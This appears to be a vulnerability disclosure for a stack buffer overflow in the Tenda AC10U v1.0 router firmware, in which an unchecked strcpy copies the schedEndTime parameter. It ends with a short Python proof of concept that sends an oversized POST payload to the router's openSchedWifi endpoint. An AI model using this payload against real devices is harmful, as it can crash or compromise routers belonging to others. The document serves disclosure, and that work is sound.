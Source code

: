 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `sched_end_time` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `wlan_switch` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy(wlan_switch->end_time, sched_end_time);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `wlan_switch` array, triggering this security vulnerability.

![image-20240313152429855](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152429855.png)

![image-20240313152704805](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152704805.png)

![image-20240313152724165](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152724165.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183332634](C:\Users\杨浩然\AppData\Roaming\Typora\typora-user-images\image-20240313183332634.png)
